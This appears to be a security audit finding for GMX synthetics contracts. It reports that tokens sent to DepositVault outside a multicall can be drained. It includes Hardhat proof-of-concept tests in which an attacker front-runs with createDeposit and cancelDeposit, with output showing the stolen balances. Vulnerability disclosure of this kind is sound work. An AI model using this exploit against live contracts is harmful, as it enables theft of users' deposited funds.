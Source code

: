 modern_Alchemist_00

high

# [H] - Native/ERC20 Tokens sent to depositVault are prone to attacks

## Summary
If `createDeposit` is not called after Any ERC20/Native tokens are sent via `sendWnt`, `sendTokens` or even simply transfering, those funds are prone to an attack and may be lost.
`createDeposit` is normally called with a multicall which batches 3 functions - `sendWnt`, `sendTokens` and then `createDeposit`. But if they are not called via multicall, the funds will be lost.

## Vulnerability Detail
`createDeposit` in DepositUtils library calls the `recordTransferIn` which returns (newbalance - previousBalance). This causes problems when native/erc20 Tokens are transferred without using multicalls as they will give a wrong amount.
Normally, through a multicall, the desired results will be obtained.

Now, Let's see how an attack can take place:-
user1 - normal user
user0 - attacker

1. user1 unknowingly transfers tokens directly to the DepositVault contract (using `sendWnt`, `sendTokens` or even simply transfering)
2. Attacker(user0) constantly scans mempool to see if any pending transfers/tx are there to the DepsitVault contract.
3. If found, Attacker(user0) places a `createDeposit` and `cancelDeposit` transaction right after it.
4. The native/ERC20 tokens that user1 had sent will be drained by the attacker(user0)

The below tests confirms this:-
(To replicate, You may place the below tests in ExchangeRouter.ts)
```javascript
it.only("Hack money from DepositVault, after sendTokens and SendWnt", async () => {
    await usdc.mint(user1.address, expandDecimals(100 * 1000, 6));
    await usdc.connect(user1).approve(router.address, expandDecimals(100 * 1000, 6));

    console.log("Attacker USDC balance BEFORE HACK", Number(await usdc.balanceOf(user0.address))/10**6);
    console.log("Attacker ETH balance BEFORE HACK", Number(await ethers.provider.getBalance(user0.address))/10**18);

    await exchangeRouter.connect(user1).multicall(
        [
          exchangeRouter.interface.encodeFunctionData("sendWnt", [depositVault.address, expandDecimals(10, 18)]),
          exchangeRouter.interface.encodeFunctionData("sendTokens", [
            usdc.address,
            depositVault.address,
            expandDecimals(100 * 1000, 6),
          ]),
        ],
        { value: expandDecimals(10, 18) }
      );
    const depositKey = await getNextKey(dataStore);

    // Attacker checks mempool for any pending transfers to depositVault and 
    // after the tx succeeds, triggers the below transaction to steal those funds
    await exchangeRouter.connect(user0).multicall([
      exchangeRouter.interface.encodeFunctionData("createDeposit", [{
        receiver: user0.address,
        callbackContract: user2.address,
        market: ethUsdMarket.marketToken,
        initialLongToken: ethUsdMarket.longToken,
        initialShortToken: ethUsdMarket.shortToken,
        longTokenSwapPath: [],
        shortTokenSwapPath: [],
        minMarketTokens: 100,
        shouldUnwrapNativeToken: true,
        executionFee: 0,
        callbackGasLimit: "200000",
      }]),
      exchangeRouter.interface.encodeFunctionData("cancelDeposit", [depositKey])
    ])

    console.log("Attacker USDC balance AFTER HACK", Number(await usdc.balanceOf(user0.address))/10**6);
    console.log("Attacker ETH balance AFTER HACK", Number(await ethers.provider.getBalance(user0.address))/10**18);

  })

  it.only("Hack money from DepositVault, When someone transfers to depositVault contract", async () => {

    await usdc.mint(user1.address, expandDecimals(100 * 1000, 6));
    await usdc.connect(user1).transfer(depositVault.address, expandDecimals(100 * 1000, 6));

    console.log("Attacker USDC balance BEFORE HACK", Number(await usdc.balanceOf(user0.address))/10**6);

    const depositKey = await getNextKey(dataStore);

    // Attacker checks mempool for any pending transfers to depositVault and 
    // after the tx succeeds, triggers the below transaction to steal those funds
    await exchangeRouter.connect(user0).multicall([
      exchangeRouter.interface.encodeFunctionData("createDeposit", [{
        receiver: user0.address,
        callbackContract: user2.address,
        market: ethUsdMarket.marketToken,
        initialLongToken: ethUsdMarket.longToken,
        initialShortToken: ethUsdMarket.shortToken,
        longTokenSwapPath: [],
        shortTokenSwapPath: [],
        minMarketTokens: 100,
        shouldUnwrapNativeToken: false,
        executionFee: 0,
        callbackGasLimit: "200000",
      }]),
      exchangeRouter.interface.encodeFunctionData("cancelDeposit", [depositKey])
    ])

    console.log("Attacker USDC balance AFTER HACK", Number(await usdc.balanceOf(user0.address))/10**6);
  })
```
Output
```unix
$ npx hardhat test


  ExchangeRouter
Attacker USDC balance BEFORE HACK 0
Attacker ETH balance BEFORE HACK 10000
Attacker USDC balance AFTER HACK 100000
Attacker ETH balance AFTER HACK 10009.999102707992
    √ Hack money from DepositVault, after sendTokens and SendWnt (674ms)
Attacker USDC balance BEFORE HACK 0
Attacker USDC balance AFTER HACK 100000
    √ Hack money from DepositVault, When someone transfers to depositVault contract (570ms)


  2 passing (20s)
```

## Impact
The user who transferred the funds/tokens will lose all of it.

## Code Snippet
- https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L94 
- https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L100
- https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L115
- https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/deposit/DepositUtils.sol#L72 
- https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/deposit/DepositUtils.sol#L73

## Tool used
Manual review, Hardhat

## Recommendation
Maybe the `createDeposit` should include implementation of both the `sendWnt` and `sendTokens` functions